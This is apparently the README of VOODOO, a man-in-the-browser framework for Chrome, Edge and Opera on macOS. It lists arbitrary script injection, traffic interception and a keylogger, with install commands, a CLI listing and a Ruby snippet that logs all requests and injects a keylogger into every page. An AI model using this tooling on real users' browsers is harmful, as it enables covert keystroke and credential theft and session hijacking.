 # VOODOO
Man in the Browser Framework

<p align="center">
    <br />
    <img src="./.github/voodoo.svg" width="50%" />
</p>

## Browser Support

| [<img src="https://raw.githubusercontent.com/alrra/browser-logos/master/src/edge/edge_48x48.png" alt="IE / Edge" width="24px" height="24px" />](http://godban.github.io/browsers-support-badges/)<br/>Edge | [<img src="https://raw.githubusercontent.com/alrra/browser-logos/master/src/chrome/chrome_48x48.png" alt="Chrome" width="24px" height="24px" />](http://godban.github.io/browsers-support-badges/)<br/>Chrome | [<img src="https://raw.githubusercontent.com/alrra/browser-logos/master/src/opera/opera_48x48.png" alt="Opera" width="24px" height="24px" />](http://godban.github.io/browsers-support-badges/)<br/>Opera |
| --------- | --------- | --------- |
| macOS only | macOS only | macOS only

## Features
* 📜 Content Scripts - inject arbitrary JavaScript to any page
* 🔍 Interceptor - capture browser traffic (url, headers, body, etc)
* 🔑 Keylogger - records user keystrokes on any site

## Requirements
* ruby >= 2.0.0
* rubygems >= 1.8
* thor ~> 1.2.1
* bundler >= 1.17

## Installation
```sh
$: git clone https://github.com/breakpointHQ/VOODOO.git
$: cd VOODOO
$: bundle install
$: ./scripts/install.sh
```

If you don't have the `/Users/[user]/.gem/ruby/[version]/bin` in your `PATH`, add it.

## CLI

```sh
$: voodoo
Commands:
  voodoo help [COMMAND]    # Describe available commands or one specific command
  voodoo intercept         # intercept browser requests
  voodoo keylogger         # records user keystrokes
  voodoo script <js/path>  # add a content script
  voodoo version           # Prints voodoo version
```

```sh
$: voodoo help script
Usage:
  voodoo script <js/path>

Options:
  s, [--site=SITE]              
  m, [--matches=one two three]  
                                # Default: ["*://*/*"]
  b, [--browser=BROWSER]        
                                # Default: chrome

add a content script
```

## Ruby API

```rb
require 'voodoo'

browser = VOODOO::Browser.Chrome
                       # .Opera
                       # .Edge
                       # .Chromium

# Intercept all browser requests
browser.intercept do |req|
    puts "#{req[:method]} #{req[:url]}"
end

# Inject keylogger to every page
browser.keylogger do |event|
    print event[:log]
end

browser.hijack 'https://example.com'
```

